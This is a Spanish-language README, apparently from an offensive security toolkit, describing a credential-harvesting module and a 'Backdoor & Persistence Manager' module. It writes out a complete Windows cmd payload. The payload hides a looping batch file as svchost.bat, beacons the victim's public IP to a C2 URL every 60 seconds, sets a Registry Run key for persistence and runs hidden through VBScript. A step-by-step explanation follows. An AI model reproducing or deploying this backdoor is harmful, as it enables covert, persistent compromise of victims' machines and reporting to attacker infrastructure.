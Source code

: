 **Archivo:** `modules/credential_harvest.py`

**🔑 Credenciales guardadas en:**
- `loot/credentials/credentials_found.json`
- `loot/credentials/credentials_found.txt`

---

### ✅ Módulo 7: Backdoor & Persistence Manager
**Estado:** ✅ COMPLETADO Y FUNCIONAL - PAYLOAD REAL DE WINDOWS

**Características implementadas:**
- ✅ **PAYLOAD DE WINDOWS COMPLETO**
- ✅ Backdoor Linux via SSH
- ✅ Backdoor Windows via SSH/WMI
- ✅ Persistencia Windows (Registry Run Key)
- ✅ Persistencia Linux (crontab)
- ✅ Ejecución invisible (VBScript)
- ✅ **Reporte a C2 cada 60 segundos**
- ✅ Identificador personalizado (EUROPEAN)
- ✅ Informe JSON completo
- ✅ Instrucciones de acceso generadas

**Archivo:** `modules/backdoor_manager.py`

**🚪 Payload de Windows incluye:**
```cmd
@echo off && echo @echo off > "%temp%\svchost.bat" && 
echo setlocal enabledelayedexpansion >> "%temp%\svchost.bat" && 
echo :inicio >> "%temp%\svchost.bat" && 
echo curl -s https://api.ipify.org ^> "%temp%\ip.txt" >> "%temp%\svchost.bat" && 
echo set /p IP=^<"%temp%\ip.txt" >> "%temp%\svchost.bat" && 
echo curl -s "http://C2_URL/?ip=IDENTIFIER_!IP!" ^>nul >> "%temp%\svchost.bat" && 
echo ping 127.0.0.1 -n 61 ^>nul >> "%temp%\svchost.bat" && 
echo goto inicio >> "%temp%\svchost.bat" && 
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "PruebaMardita" /t REG_SZ /d "wscript.exe \"%temp%\invisible.vbs\"" /f && 
echo Set WshShell = CreateObject("WScript.Shell"^) > "%temp%\invisible.vbs" && 
echo WshShell.Run "cmd /c %temp%\svchost.bat", 0, False >> "%temp%\invisible.vbs" && 
wscript "%temp%\invisible.vbs" && 
echo SUCCESS: Persistencia activa - Ejecuta cada 1 minuto
```

**Funcionalidad del payload:**
1. ✅ Crea script batch en `%temp%\svchost.bat`
2. ✅ Obtiene IP pública con `curl`
3. ✅ Envía IP al C2 con identificador: `EUROPEAN_X.X.X.X`
4. ✅ Espera 60 segundos
5. ✅ Repite infinitamente
6. ✅ Crea VBScript invisible
7. ✅ Agrega entrada en Registry para persistencia
8. ✅ Ejecuta invisible (sin ventana)

**📝 Instrucciones guardadas en:**
- `loot/backdoors/access_instructions.txt`

---